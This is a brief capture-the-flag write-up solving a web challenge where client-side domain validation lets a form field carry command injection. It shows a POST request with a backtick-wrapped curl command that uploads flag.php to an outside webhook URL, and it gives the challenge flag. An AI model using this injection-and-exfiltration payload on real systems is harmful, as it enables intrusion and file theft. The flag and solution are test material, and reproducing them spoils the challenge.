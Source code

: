 ```yaml
---
ai_date: '2025-04-27 05:25:36'
ai_summary: Client-side domain validation allows command injection, exploiting with
  'curl' to retrieve the flag.
ai_tags:
- xss
- cmd-inj
- rce
created: 2025-03-01T22:11
points: 50
solves: 17
updated: 2025-03-18T02:30
---
```


Domain validity check is done client-side, we can just inject a command directly.

```http
POST /?domain=google.com HTTP/1.1
Content-Length: 111
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:56410

domain=%60curl+-F+%22file%3D%40flag.php%22+https%3A%2F%2Fwebhook.site%2F9ae7c07b-30e6-41f3-8f59-b44b0d7a58ef%60
```

The command is this.

```bash
`curl -F "file=@flag.php" https://webhook.site/9ae7c07b-30e6-41f3-8f59-b44b0d7a58ef`
```

```php
This content is hidden :))
<?php

// ATHACKCTF{c0mm4nd_Inj3ecti0ns_4re_5c4ry}
```

```flag
ATHACKCTF{c0mm4nd_Inj3ecti0ns_4re_5c4ry}
```